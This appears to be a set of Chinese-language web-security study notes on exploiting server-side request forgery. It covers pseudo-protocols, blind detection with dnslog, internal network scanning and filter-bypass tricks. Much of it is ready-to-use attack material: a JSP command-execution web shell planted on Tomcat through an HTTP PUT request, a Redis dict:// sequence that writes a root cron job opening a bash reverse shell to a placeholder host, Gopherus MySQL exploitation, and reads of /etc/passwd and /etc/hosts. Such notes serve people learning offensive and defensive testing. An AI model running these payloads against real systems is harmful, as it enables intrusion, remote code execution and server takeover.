# WEB攻防-SSRF服务端请求&Gopher伪协议&无回显利用&黑白盒挖掘&业务功能点

\#SSRF漏洞原理

服务器端请求伪造，也称为SSRF（Server-Side Request Forgery），是因为前端用户可以输入任意URL到后端服务器，而且服务器也没有对其URL进行严格的过滤和校验，导致攻击者可以构造一些恶意的URL让服务器去访问执行。

*主要安全影响：

==-读取服务器本地文件==

==-探测内网存活主机和开放端口==

==-攻击其他内网服务器及服务==

抓包重点找一下关键词

-URL关键参数

share

wap

url

link

src

source

target

u

display

sourceURl

imageURL

domain

## 测试方法（有回显）

输入当前网站地址测试是否触发跨站





\#SSRF伪协议利用



http://  Web常见访问，如http://127.0.0.1

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd

dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：

sftp:// SSH文件传输协议或安全文件传输协议

ldap:// 轻量级目录访问协议

tftp:// 简单文件传输协议

 

gopher:// 分布式文档传递服务，可使用gopherus生成payload

由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）

应用：漏洞利用 或 信息收集 通讯相关服务的时候 工具：Gopherus

## 无回显的时

利用dnslog反连



## 探测内网存活主机和开放端口

替换当前IP地址测试当前开放的主机

替换端口测试开放端口



```
10.0.0.0 ～ 10.255.255.255
172.16.0.0 ～ 172.31.255.255
192.168.0.0 ～ 192.168.255.255
```

==爆破地址->爆破端口->爆破文件==

1、获取获取内网地址

```
file:///etc/hosts
```



利用bp爆破 地址和端口





利用fuzzdb的字典，爆破文件



2、



输入payload抓包->修改地址为内网地址->删除Accept-Encoding 因为要用gopher协议

```
gopher:// 分布式文档传递服务，可使用gopherus生成payload
由于有部分协议http这类不支持，可以gopher来进行通讯（mysql，redis等）
应用：漏洞利用 或 信息收集 通讯相关服务的时候 工具：Gopherus

```



进行两次url编码，这是gopher的格式



拼接发包

```
gopher://172.150.23.24:80/_xxxx
```




3、Apache Tomcat/8.5.19

写入文件1.jsp  进行url编码两次

```
PUT /1.jsp/ HTTP/1.1
Host: 172.150.23.26:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 460

<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("</pre>");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>

```



4、-Redis

等待需要一定时间

```
nc -lvvp 2333
```

```
# 清空 key
dict://172.150.23.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://172.150.23.27:6379/config set dir /var/spool/cron/

# 在定时任务目录下创建 root 的定时任务文件
dict://172.150.23.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://172.150.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"

# 保存上述操作
dict://172.150.23.27:6379/save

```

5、mysql

```
-MYSQL:
https://github.com/tarunkant/Gopherus
python2 gopherus.py --exploit mysql
root
show variables like '%plugin%'
```

## SSRF过滤绕过

遇到数字过滤，可以利用进制转换

```
十六进制
  url=http://0x7F.0.0.1/flag.php

八进制
  url=http://0177.0.0.1/flag.php

10 进制整数格式
  url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x
  url=http://0x7F000001/flag.php

还有一种特殊的省略模式
  127.0.0.1写成127.1

用CIDR绕过localhost
  url=http://127.127.127.127/flag.php

还有很多方式
  url=http://0/flag.php
  url=http://0.0.0.0/flag.php
```

4、域名解析IP绕过

利用自己的网站解析成127.0.0.1

test.自己的网站 -> 127.0.0.1

url=http://test.自己的网站/flag.php

5、长度限制IP绕过

url=http://127.1/flag.php

 

6、长度限制IP绕过

url=http://0/flag.php

 

7、利用重定向解析绕过

写入文件，访问文件重定向

<?php

header("Location:http://127.0.0.1/flag.php"); 

url=http://47.94.236.117/xx.php

 

8、匹配且不影响写法解析

url=http://ctf.@127.0.0.1/flag.php?show

 

9-10、利用gopher协议打服务

参考上述工具项目

## pdf 或者在线解析 js html

文章导出为pdf

项目导出为pdf

添加iframe标签测试

```
'<iframe src=\"http://127.0.0.1">"
```

